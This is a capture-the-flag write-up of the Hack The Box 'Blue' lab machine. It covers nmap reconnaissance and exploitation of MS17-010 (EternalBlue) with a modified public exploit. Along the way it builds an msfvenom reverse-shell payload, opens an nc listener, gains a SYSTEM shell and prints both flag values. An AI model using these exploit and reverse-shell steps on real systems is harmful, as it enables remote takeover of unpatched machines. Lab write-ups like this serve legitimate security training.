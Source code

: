 ```yaml
---

layout: post
title: Blue
tags: [OSCP, writeup, Windows, shellcode, SMB]
description: "Blue write-up"
---
```


![Blue logo](/assets/imgs/blue/blue.png)

### This is an easy windows box

## Tools used

------

- nmap
- msfvenom
- python
- nc
- searchsploit

## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA blue 10.10.10.40 -v

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -13m23s, deviation: 34m37s, median: 6m34s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-07-18T08:55:19+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-18T07:55:17
|_  start_date: 2020-07-18T07:52:58
```

Here’s what nmap teaches us :

- port 139 (NETBIOS)
- port 445 (SMB)
- Windows 7 Professional 6.1

So we have a windows 7 with SMB ports open. Let's check with nmap if we have some known exploit with SMB.

```
nmap --script "smb-vuln*" -p 139,445 10.10.10.40 -v

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

Results :

- ms17-010 : RCE

Nice, we have a RCE, let's search for exploit code.

### Searchsploit

![Searchsploit ms17-010](/assets/imgs/blue/searchsploit_ms17-010.PNG)

There's a Metasploit module, but let's not use it. I have to do it manually !

## Exploit

------

I'm going to use this exploit "windows/remote/42315.py", download it, like so :

```bash
searchsploit -m windows/remote/42315.py
```

Reading the code we need to modify it a little bit.

- Change the username/password
- Change the shellcode, so that the code use mine

Generate the reverse shell with msfvenom :

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=1234 EXITFUNC=thread -f exe -a x86 --platform windows -o reverse_shell.exe
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: reverse_shell.exe
```

As username I'll use "guest" and no password.

Now modify the python code :

```python
USERNAME = 'guest'
PASSWORD = ''

[...]

smb_send_file(smbConn, "/home/liodeus/Downloads/hackthebox/blue/shellcode.exe", 'C', '/shellcode.exe')
service_exec(conn, r'cmd /c c:\\shellcode.exe')
```

Before executing the exploit, open a nc listener.

```bash
nc -lvp 1234
```

Then launch the exploit.

```python
python 42315.py 10.10.10.40
```

Go to the nc listener and voila !

```python
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.40: inverse host lookup failed: Unknown host
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.40] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

We are root ! Go read the flags now !

## Flags

------

### User.txt

```python
C:\>dir /b/s user.txt
dir /b/s user.txt
C:\Users\haris\Desktop\user.txt

C:\>type C:\Users\haris\Desktop\user.txt
type C:\Users\haris\Desktop\user.txt
4c546aea7dbee75cbd71de245c8deea9
```

### Root.txt

```python
C:\>dir /b/s root.txt
dir /b/s root.txt
C:\Users\Administrator\Desktop\root.txt

C:\>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
ff548eb71e920ff6c08843ce9df4e717
```